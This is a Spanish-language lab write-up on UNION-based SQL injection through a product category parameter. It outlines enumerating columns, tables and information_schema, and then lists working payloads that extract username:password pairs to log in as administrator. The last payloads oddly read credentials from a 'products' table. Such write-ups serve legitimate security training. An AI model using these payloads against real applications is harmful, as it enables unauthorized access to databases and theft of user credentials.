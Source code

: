 La vulnerabilidad está en el parámetro de categoría de productos. Gracias a que la respuesta incluye los datos de la consulta, podemos aprovecharla para visualizar información del sistema.

El objetivo final es extraer las credenciales de todos los usuarios (incluido el administrador) a partir de las siguientes etapas:

- Descubrir cuántas columnas devuelve la consulta original y qué tipo de datos aceptan, usando un payload simple para comprobarlo.
- Listar todas las tablas existentes en la base de datos consultando ‘**information_schema.tables**‘, una tabla especial que contiene metadatos.
- Identificar la tabla que almacena los usuarios y contraseñas, observando su nombre en la respuesta.
- Listar las columnas de esa tabla, consultando ‘**information_schema.columns**‘ y filtrando por el nombre de tabla que acabamos de encontrar.
- Extraer los valores de las columnas relevantes, mostrando directamente los nombres de usuario y contraseñas de todos los usuarios.

Una vez obtenida la contraseña del administrador, podemos usarla para iniciar sesión en la aplicación y completar el laboratorio.

**Quédate con esto**: Con técnicas de enumeración y ataques UNION bien estructurados, es posible reconstruir la estructura interna de una base de datos y acceder a información crítica como credenciales de usuarios.

----

* Primero debemos de buscar el total de columnas existentes que nos muestra la Web
    + ' order by 10-- -
    + ' order by 5-- -
    + ' order by 2-- -
    + ' union select 1,2-- -
    + ' union select  'hola','markos'-- -
    + ' union select  @@version-- -
    + ' union select  1,schema_name from information_schema.schemata-- - (bases de datos)
    + ' union select  1,table_name from information_schema.tables where table_schema='DB'-- - (tablas de la base de datos)
    + ' union select  1,column_name from information_schema.columns where table_schema='DB' and table_name='TABLE'-- -
    + ' union select 1,group_concat(username,0x3a,password) from academy_labs.products-- -
    + ' union select 1,concat(username,0x3a,password) from academy_labs.products-- - (si no funciona group_concat)
    + ' union select 1,group_concat(username||0x3a||password) from academy_labs.products-- - (forma alternativa de poner las comas)
    + 